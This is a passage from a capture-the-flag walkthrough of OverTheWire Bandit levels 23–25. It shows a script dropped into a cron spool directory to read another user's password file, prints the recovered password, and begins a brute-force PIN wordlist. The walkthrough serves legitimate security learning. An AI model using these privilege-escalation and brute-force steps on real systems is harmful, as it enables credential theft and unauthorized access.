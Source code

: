 The i solved this challenge was by first creating a directory in **/tmp**, and give that directory full permissions so bandit24 can write there.

```terminal
bandit23@bandit:~$ mkdir /tmp/dir
bandit23@bandit:~$ chmod 777 /tmp/dir
bandit23@bandit:~$ cd /tmp/dir
bandit23@bandit:/tmp/dir$
```

After that i proceeded to write the script, i first created a hidden file and write the command that are going to be executed.

```terminal
bandit23@bandit:/tmp/dir$ touch .script.sh
bandit23@bandit:/tmp/dir$ echo '#!/bin/bash' > .script.sh
bandit23@bandit:/tmp/dir$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/dir/bandit24' >> .script.sh
bandit23@bandit:/tmp/dir$ chmod +x .script.sh
bandit23@bandit:/tmp/dir$ cat .script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/dir/bandit24

bandit23@bandit:/tmp/dir$ cp .script.sh /var/spool/bandit24/
```

In my case, i choose to write a simple bash script that reads the */etc/bandit_pass/bandit24* and saves the output to a file called *bandit24** in the /tmp/dir we created earlier. I gave the file execution permission and copied it to */var/spool/bandit24* directory. We wait a bit and we should see our file bandit24 that contains the password in /tmp/dir directory.

```terminal
bandit23@bandit:/tmp/dir$ ls
bandit24
bandit23@bandit:/tmp/dir$ cat bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# **Level 24 -> Level 25**

## Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution

So we need to generate a list of possible combinations, save them is a file and use that list to brute force the pincode.


```bash
#!/bin/bash

for i in {0000..9999}; do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> list
done
```
